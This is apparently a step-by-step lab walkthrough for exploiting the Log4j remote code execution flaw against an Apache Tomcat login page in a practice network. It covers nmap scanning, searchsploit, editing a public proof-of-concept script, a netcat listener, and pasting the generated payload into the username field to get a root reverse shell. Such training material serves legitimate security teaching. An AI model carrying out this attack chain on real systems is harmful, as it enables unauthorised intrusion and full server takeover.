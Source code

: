 
   
switch to the Parrot Security machine.

We will first scan the target machine to identify any vulnerable services running on it.

Open a Terminal window with superuser previleges and run nmap -sV -sC 10.10.1.9 command to view the running services.

From the result we can see that port 8080 is open and Apache Tomcat/Coyote 1.1 server is running on the target system.

Upon investigation we can see that Apache is vulnerable to Remote Code Execution (RCE) attack. Now we wil use searchsploit to find the vulnerabilities pertaining to RCE attack on the target server.

 In the terminal window run searchsploit -t Apache RCE command to view the RCE vulnerabilities on the Apache server.

Now, we need to select a vulnerability to exploit the Server from the list, from the Nmap scan we found that the Apache Tomcat server is running on JSP so we will target java vulnerabilities from the list of vulnerabilities.
    
We can see that Java platform is vulnerable for Apache Log4j 2 - Remote Command Execution (RCE) exploit.

We will now exploit Log4j vulnerability present in the target Web Server to perform Remote code execution.

Click the Firefox icon at the top of Desktop, to open a browser window.

In the address bar of the browser, type http://10.10.1.9:8080 and press Enter.

As we can observe that the Log4j vulnerable server is running on the Ubuntu machine, leave the Firefox and website open.

Switch to the Terminal window, run cd log4j-shell-poc/ and press Enter, to enter into log4j-shell-poc directory.

Now, we needed to install JDK 8, to do that open a new terminal window and type sudo su and press Enter to run the programs as a root user.

We need to extract JDK zip file which is already placed at /home/attacker location.

Type tar -xf jdk-8u202-linux-x64.tar.gz and press Enter, to extract the file.

Now we will move the jdk1.8.0_202 into /usr/bin/. To do that, type mv jdk1.8.0_202 /usr/bin/ and press Enter.

Now, we need to update the installed JDK path in the poc.py file.

Navigate to the previous terminal window. In the terminal, type pluma poc.py and press Enter to open poc.py file.

In the poc.py file scroll down and in line 62, replace jdk1.8.0_20/bin/javac with /usr/bin/jdk1.8.0_202/bin/javac.

Scroll down to line 87 and replace jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java

Scroll down to line 99 and replace jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java

After making all the changes save the changes and close the poc.py editor window.

Now, open a new terminal window and type nc -lvp 9001 and press Enter, to initiate a netcat listener as shown in screenshot.

Switch to previous terminal window and type python3 poc.py --userip 10.10.1.13 --webport 8000 --lport 9001 and press Enter, to start the exploitation and create payload.

Now, copy the payload generated in the send me: section.

Switch to Firefox browser window, in Username field paste the payload that was copied in previous step and in Password field type password and press Login button as shown in the screenshot.

Now switch to the netcat listener, you can see that a reverse shell is opened.

In the listener window type pwd and press Enter, to view the present working directory.

Now, type whoami and press Enter.

We can see that we have shell access to the target web application as a root user.

The Log4j vulnerability takes the payload as input and processes it, as a result we will obtain a reverse shell.